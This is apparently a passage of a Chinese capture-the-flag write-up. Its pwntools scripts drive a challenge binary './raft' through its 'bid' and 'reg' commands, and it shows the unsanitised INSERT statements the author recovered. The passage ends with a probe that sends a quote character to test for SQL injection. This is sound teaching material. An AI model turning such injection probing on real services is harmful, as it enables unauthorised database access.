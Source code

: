 ```
R.send('bid '+'233333'+'\n')
R.recv()

R.interactive()
```

反过来试试看
```
context.log_level = 'debug'

R = process('./raft')
#R = remote('54.223.241.254',22333)

R.recvuntil('A date with Firesun is on sale!\n')
q = '555asdf'

R.send('bid '+q+'\n')
R.recv()

R.send('reg '+'233333'+'\n')
R.recv()

R.interactive()
```

这里一般来说会有两种结果，第一种是正常的。
![image_1b4bmmlia1medbfg10g8f4k19lb2a.png-13.2kB][3]

![image_1b4bmn0iq1k6p1tk917u41hmplll2n.png-12.6kB][4]
TOKENS表中password被正常处理。

另一种是发生了错误
![image_1b4bm3d0dsa05tb12kn2pf13dj13.png-10.7kB][5]
这种就是不返回token的，我们看看数据库
![image_1b4bm9226mls1v269euegadg61g.png-17.9kB][6]
在TOKENS表里直接写入了字符串，回想前面strings得到的语句。
```
INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('%s', '%s')
INSERT INTO BID (TOKENS, PRICE) VALUES('%s', '%d')
```

这里我没想那么多，因为存在可控点为password和price两个，一个输入为%d，所以会发生截断，另一个输入为%s，猜测有注入点，测试一下。

```
from pwn import *
context.log_level = 'debug'

R = process('./raft')
#R = remote('54.223.241.254',22333)

R.recvuntil('A date with Firesun is on sale!\n')
q = '555asdf\''

R.send('bid '+q+'\n')
R.recv()

R.send('reg '+'233333'+'\n')
R.recv()

R.interactive()
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3mynkfeq39k3eohjz2wva98s/image_1b4b8pauc117a19crdtp881429.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rh6m1p9mjf19e6n3j59ot0xa/image_1b4b8rnc814s0156ajbfte81hldm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1ha3vmag9gtx6e9ptlcecfkr/image_1b4bmmlia1medbfg10g8f4k19lb2a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jn6usw0gx80qh5ykbxc047sv/image_1b4bmn0iq1k6p1tk917u41hmplll2n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8n1tc1fgzkxpta6chyr7cf7u/image_1b4bm3d0dsa05tb12kn2pf13dj13.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dkwvpgccd2dzjtizdiyabf2w/image_1b4bm9226mls1v269euegadg61g.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q9svyk6depyg3ngjv6f2b3hw/image_1b4bmfk1k1v79e2p1j6m2oguas1t.png